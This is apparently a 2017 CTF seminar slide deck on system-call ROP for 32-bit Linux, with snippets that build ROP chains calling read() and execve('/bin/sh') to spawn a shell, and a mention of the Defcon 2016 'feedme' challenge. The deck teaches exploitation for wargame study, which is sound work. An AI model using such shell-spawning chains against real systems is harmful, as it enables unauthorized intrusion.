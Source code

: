 footer: © 2O2L2H Book/Seminar, 2017
slidenumbers: true

# [fit] System Call ROP 

### June 8, 2017   2O2L2H/humb1ec0ding

```
/awesome-ctf-wargame/seminar/topic/srop
```

---
# [fit] Linux System Calls

![left fit](./fig/linux-system-call.png)

- `int 80`
- system call number

---
# [fit] [Assembly System Calls](https://www.tutorialspoint.com/assembly_programming/assembly_system_calls.htm)

![left fit](./fig/srop-arg.png)

- `eax` : system call number
- `ebx` : file descriptor - `stdin/out/err`
- `ecx` : buffer
- `edx` : siz


---
# system call : assembly

```
mov eax,1   ; system call number (sys_exit)
int 0x80    ; call kernel

mov edx,4   ; message length
mov ecx,msg ; message to write
mov ebx,1   ; file descriptor (stdout)
mov eax,4   ; system call number (sys_write)
int 0x80    ; call kernel
```

---
# gadget for system call

- pop reg, ret
- int 0x80, ret

### Useful exploit

- open("flag"), read(buf,size,), write(buf, size, )
- execve("/bin/sh", NULL, NULL)
- [security - system() vs execve() - Stack Overflow](https://stackoverflow.com/questions/27461936/system-vs-execve)



---
## read(0, e.bss(), 0x8)

```
ex += p32(pop_eax)              # pop eax
ex += p32(0x3)                  # number of systemcall sys_read
ex += p32(pop_edx_edx_ebx_ret)  # pop edx/ecx/ebx
ex += p32(0x8)                  # size of stdin
ex += p32(elf.bss())            # buf for stdin
ex += p32(0)                    # fd of stdin
ex += p32(int0x80)              # invoke system calls in Linux on x86
```

---
## execve("/bin/sh",NULL, NULL)

```
ex += p32(pop_eax)              # pop eax
ex += p32(0xb)                  # number of systemcall sys_execve
ex += p32(pop_edx_edx_ebx_ret)  # pop edx/ecx/ebx
ex += p32(0)                    # third argument of execve : NULL
ex += p32(0)                    # second argument of execve : NULL
ex += p32(elf.bss())            # first argument of execve : buf
ex += p32(int0x80)              # invoke system calls
```


---
# exec

PATH 에 등록된 디렉토리를 참고하여 다른 프로그램을 실행하고 종료

![inline fit](./fig/exec.png)

![inline fit](./fig/exec2.png)


---
# [fit] Defcon 2016 feedme

- Canary : fork child, bruteforce
- SROP : static linked, stripped



